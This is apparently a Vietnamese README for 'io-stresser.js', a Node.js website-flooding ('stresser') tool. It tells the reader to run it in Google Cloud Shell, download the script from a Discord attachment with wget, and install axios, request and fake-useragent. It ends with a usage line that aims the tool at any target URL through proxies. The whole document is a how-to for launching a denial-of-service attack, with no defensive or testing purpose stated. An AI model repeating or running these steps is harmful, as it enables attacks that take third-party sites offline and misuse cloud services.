 <p align="center">
IO-STRESSER.JS</p>


### Mỗi trường thực hiện
[Cloud Shell](https://shell.cloud.google.com/)

### Cài đặt
Tải xuống io-stresser
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
```
Cài đặt npm nếu cần
```
apt install npm -y
```
Cài đặt axios
```
npm install axios
```
Cài đặt request
```
npm install request
```
Cài đặt fake-useragent
```
npm install fake-useragent
```
Xem cách sử dụng io-stresser.js
```
node io-stresser.js
```
### Cách sử dụng
```
node io-stresser.js <URL> 10000 5 proxy
```
